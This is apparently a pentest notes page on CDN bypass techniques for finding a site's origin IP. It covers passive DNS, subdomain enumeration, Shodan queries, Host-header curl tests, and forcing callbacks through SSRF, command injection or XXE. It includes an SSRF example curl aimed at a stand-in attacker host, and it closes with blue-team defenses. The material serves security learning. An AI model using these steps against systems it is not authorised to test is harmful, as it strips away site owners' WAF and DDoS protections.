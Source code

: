 # CDN Bypass – Techniques & Concepts
---

CDN (Content Delivery Network) is used to:

- Cache content close to users
- Mask the origin server's IP
- Provide security features (WAF, rate-limiting, DDoS protection)

CDN Bypass refers to techniques used to:

- Discover the origin server IP
- Interact directly with the backend server, bypassing CDN protections

## Common CDN Bypass Techniques
---
### 1. Find the Origin IP

Use recon tools to locate the real IP behind the CDN.

#### a. DNS History / Passive DNS

Check historical A records before CDN was used:
- [SecurityTrails](https://securitytrails.com/)
- [ViewDNS IP History](https://viewdns.info/iphistory/)
- [RiskIQ PassiveTotal](https://community.riskiq.com/)

#### b. Subdomain Enumeration
Some subdomains may not be behind the CDN:
```
amass enum -d target.com
```

#### c. Shodan / Censys Search
Search by SSL cert, favicon hash, or headers:
```
ssl.cert.subject.CN:"target.com"
http.favicon.hash:123456789
```
- [shodan.io](https://www.shodan.io/)
- [censys.io](https://search.censys.io/)

#### d. Email/Webmail Leaks
Check email headers (e.g., password reset) which might reveal origin IP.

#### e. Misconfigured DNS
Sometimes origin domain points directly to server IP (e.g., ftp.target.com).

#### f. SSL Certificate Transparency Logs
View issued certificates to discover hidden subdomains:
- [crt.sh](https://crt.sh/)
- [Certspotter](https://sslmate.com/certspotter/)

---
### 2. Test IP Candidates

Once you have potential origin IPs:
- Use `curl` or `nmap` with Host header
```
curl -H "Host: target.com" http://<origin_ip>
```
If it returns the real site -> origin IP found.

---
### 3. Check Firewall Misconfigurations

Misconfigured origin may accept direct traffic:
- `iptables` or `fail2ban` not properly restricting to CDN IPs
- Use tools like `wafw00f` to detect WAF presence/absence
```
wafw00f http://target.com
```

---
### 4. Leaked Files or Git Repos
Sometimes `.git`, `.env`, or server files are exposed via other subdomains that bypass CDN.

---
### 5. Reveal Origin IP via Application Vulnerabilities
Instead of finding the IP first, you can exploit certain vulnerabilities on the website itself (while it's still behind the CDN) to force the origin server to reveal its IP address. This is typically done by making the server initiate a connection to an external system that you control.

Key vulnerabilities for this technique include:
-   **SSRF (Server-Side Request Forgery):** This is the most common method. By exploiting an SSRF flaw, you can command the server to send a request to a URL you own. Your server's logs will then show the origin server's IP as the source of the request.
-   **Command Injection:** If you can execute commands on the server, you can use utilities like `curl`, `wget`, or `ping` to make it contact your external server.
-   **XXE (XML External Entity):** Similar to SSRF, XXE can be used to force the server to fetch an external resource, revealing its IP to you.

**Example (using an SSRF vulnerability):**
1. An attacker identifies an SSRF vulnerability in a feature on `target.com`.
2. They craft a request that forces the server to connect to their own machine (e.g., `attacker-server.com`).
```bash
# The attacker sends this request to the public website
curl "https://target.com/loadImage?url=http://attacker-server.com/reveal.txt"
```
3. The attacker checks the access logs on `attacker-server.com`. The IP address that requested `/reveal.txt` is the real IP of the origin server, successfully bypassing the CDN's protection.
---
## Defense Tips (For Blue Team)
---
- Restrict origin IP to only accept traffic from CDN IP ranges (e.g., Cloudflare IP list)
- Use firewall rules and allow-lists
- Monitor DNS records for leaks
- Regularly scan for exposed services and old records
---
---

